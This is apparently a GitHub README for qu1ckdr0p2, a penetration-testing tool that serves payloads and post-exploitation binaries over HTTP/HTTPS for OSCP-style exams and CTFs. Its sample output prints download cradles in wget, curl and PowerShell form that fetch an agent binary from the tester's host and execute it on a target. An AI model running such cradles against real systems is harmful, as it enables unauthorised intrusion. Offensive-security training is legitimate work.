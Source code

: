 <h1 align="center">
    <img src="img/quick_drop_small.png"></img>

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white)
![Visual Studio Code](https://img.shields.io/badge/Visual%20Studio%20Code-0078d7.svg?style=for-the-badge&logo=visual-studio-code&logoColor=white)
![Prettier](https://img.shields.io/badge/prettier-1A2C34?style=for-the-badge&logo=prettier&logoColor=F7BA3E)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=for-the-badge)](https://opensource.org/licenses/MIT)


</h1>

## About
Rapidly host payloads and post-exploitation bins over HTTP or HTTPS. 

Designed to be used on exams like OSCP / PNPT or CTFs HTB / etc.

Pull requests and issues welcome. As are any contributions.

Qu1ckdr0p2 comes with an alias and search feature. The tools are located in the <a href ="https://github.com/byinarie/qu1ckdr0p2-tools">qu1ckdr0p2-tools</a> repository. By default it will generate a self-signed certificate to use when using the `--https` option, priority is also given to the `tun0` interface when the webserver is running, otherwise it will use `eth0`.

The <a href="https://github.com/byinarie/qu1ckdr0p2-tools/blob/main/config/common.ini">common.ini</a> defines the mapped aliases used within the `--search and -u` options.

When the webserver is running there are several download cradles printed to the screen to copy and paste.

## Install
#### Using pip is the only supported way of installing
#### Cloning this repository to install will probably break something
```zsh
pip3 install qu1ckdr0p2
serv init --update
```
#### Export as an alias if needed
```
echo "alias serv='~/.local/bin/serv'" >> ~/.zshrc
source ~/.zshrc
```

```
echo "alias serv='~/.local/bin/serv'" >> ~/.bashrc
source ~/.bashrc
```

## Usage
### Serv a single file located in your current working directory
```zsh
$ serv serve -f implant.bin --https 443
```
```zsh
$ serv serve -f file.example --http 8080
```

## Update and help
```zsh
$ serv --help            
Usage: serv [OPTIONS] COMMAND [ARGS]...

  Welcome to qu1ckdr0p2 entry point.

Options:
  --debug  Enable debug mode.
  --help   Show this message and exit.

Commands:
  init   Perform updates.
  serve  Serve files.
```
```zsh
$ serv serve --help
Usage: serv serve [OPTIONS]

  Serve files.

Options:
  -l, --list         List aliases
  -s, --search TEXT  Search query for aliases
  -u, --use INTEGER  Use an alias by a dynamic number
  -f, --file FILE    Serve a file
  --http INTEGER     Use HTTP with a custom port
  --https INTEGER    Use HTTPS with a custom port
  -h, --help         Show this message and exit.
```
```zsh
$ serv init --help       
Usage: serv init [OPTIONS]

  Perform updates.

Options:
  --update            Check and download missing tools.
  --update-self       Update the tool using pip.
  --update-self-test  Used for dev testing, installs unstable build.
  --help              Show this message and exit.
```

```zsh
serv init --update
```
```zsh
serv init --update-self
```
### Serv a file from a mapped alias
The mapped alias numbers for the `-u` option are dynamic so you don't have to remember specific numbers or ever type out a tool name.
```zsh
$ serv serve --search ligolo               

[→] Path: ~/.qu1ckdr0p2/windows/agent.exe
[→] Alias: ligolo_agent_win
[→] Use: 1

[→] Path: ~/.qu1ckdr0p2/windows/proxy.exe
[→] Alias: ligolo_proxy_win
[→] Use: 2

[→] Path: ~/.qu1ckdr0p2/linux/agent
[→] Alias: ligolo_agent_linux
[→] Use: 3

[→] Path: ~/.qu1ckdr0p2/linux/proxy
[→] Alias: ligolo_proxy_linux
[→] Use: 4
(...)
```
```zsh
$ serv serve --search ligolo -u 3 --http 80

[→] Serving: ../../.qu1ckdr0p2/linux/agent
[→] Protocol: http
[→] IP address: 192.168.1.5
[→] Port: 80
[→] Interface: eth0
[→] CTRL+C to quit

[→] URL: http://192.168.1.5:80/agent

[↓] csharp:
$webclient = New-Object System.Net.WebClient; $webclient.DownloadFile('http://192.168.1.5:80/agent', 'c:\windows\temp\agent'); Start-Process 'c:\windows\temp\agent'

[↓] wget:
wget http://192.168.1.5:80/agent -O /tmp/agent && chmod +x /tmp/agent && /tmp/agent

[↓] curl:
curl http://192.168.1.5:80/agent -o /tmp/agent && chmod +x /tmp/agent && /tmp/agent

[↓] powershell:
Invoke-WebRequest -Uri http://192.168.1.5:80/agent -OutFile c:\windows\temp\agent; Start-Process c:\windows\temp\agent

⠧ Web server running

```




## License

MIT

---

